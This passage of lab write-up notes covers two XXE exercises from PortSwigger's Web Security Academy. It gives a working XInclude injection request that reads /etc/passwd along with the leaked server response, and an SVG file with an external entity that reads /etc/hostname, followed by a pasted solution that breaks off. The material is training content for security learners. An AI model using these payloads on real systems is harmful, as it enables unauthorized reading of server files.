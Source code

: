 > his lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
>
> Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
>
> To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file. 

exploit

```http
POST /product/stock HTTP/1.1
Host: 0ac200fa037be953c07a33a0004b0045.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

productId=1<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1278

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
......
```





#### Exploiting XXE via image file upload

> This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
>
> To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

exploit.svg

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16" fill="red">&xxe;</text></svg>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        <p>
                            Create a local SVG image with the following content:
                        </p>
                        <code class="code-scrollable">&lt;?xml version="1.0" standalone="yes"?&gt;&lt;!DOCTYPE test [ &lt;!ENTITY xxe SYSTEM "file:///etc/hostname" &gt; ]&gt;&lt;svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"&gt;&lt;text font-size="16" x="0" y="16"&gt;&amp;xxe;&lt;/text&gt;&lt;/svg&gt;</code>
                    </li>
                    <li>
                        Post a comment on a blog post, and upload this image as an avatar.